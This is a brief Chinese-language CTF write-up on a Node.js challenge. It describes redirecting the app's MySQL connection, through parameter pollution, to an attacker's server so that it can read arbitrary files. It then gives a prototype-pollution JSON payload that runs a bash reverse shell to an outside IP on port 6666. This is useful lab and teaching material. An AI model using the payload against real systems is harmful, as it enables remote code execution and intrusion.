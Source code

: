![](访问后端js文件.png)


这题可以控制host参数去篡改mysql的连接地址 利用mysql客户端任意文件读取 https://blog.csdn.net/ls1120704214/article/details/88174003

但是如果直接在json中传递{“host”:””},根本不会有任何效果
在57行
``if (body.host != undefined) {``
如果发现有直接传递进来的host参数，nodejs就报错退出，所以，通过仔细观察源代码，发现这个代码有参数污染问题，所以就可以通过构造如下参数去改变host参数，把host参数变成我们自己mysql服务器的地址
原题作者博客https://xz.aliyun.com/t/6991

不用host参数篡改mysql地址 还可以利用原型链污染：
``{"user":"test","passwd":"test","__proto__":{"outputFunctionName":"_tmp1;global.process.mainModule.require('child_process').exec('bash -c \"bash -i >& /dev/tcp/xxx.xxx.xxx.xx/6666 0>&1\"');var __tmp2"}}``
